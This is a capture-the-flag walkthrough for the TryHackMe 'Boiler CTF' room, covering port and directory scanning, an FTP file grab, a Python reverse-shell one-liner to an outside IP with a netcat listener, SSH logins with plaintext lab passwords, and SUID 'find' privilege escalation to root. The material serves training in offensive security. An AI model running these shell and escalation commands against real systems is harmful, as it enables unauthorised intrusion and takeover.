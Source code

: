 # Boiler CTF

**Room Link:** [https://tryhackme.com/room/boilerctf2](https://tryhackme.com/room/boilerctf2)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/21 - HTTP

**Kali**

```
ftp $VICTIM
ls -lah 
get .info.txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/joomla -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Initial Shell**

**Exploit:** [https://www.exploit-db.com/exploits/47204](https://www.exploit-db.com/exploits/47204)

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Browser command**

```
export RHOST="10.10.157.229";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

There is a file that has credentials

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It was also possible to view from the browser

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/55007 - SSH

**Kali**

```
ssh basterd@$VICTIM -p 55007
Pass: superduperp@$$
```

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



There is a backup.sh script that is owned by user stoner, which has his credentials.

<figure><img src="../../.gitbook/assets/image (21) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh stoner@$VICTIM -p 55007                                            
Pass: superduperp@$$no1knows 
```

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

We can exploit SUID for the find command

**Exploit:** [https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)

**Victim**

```
find / -perm -u=s -type f 2> /dev/null 
```

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

Had to specify the full path, it doesn't work if you don't

**Victim**

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>





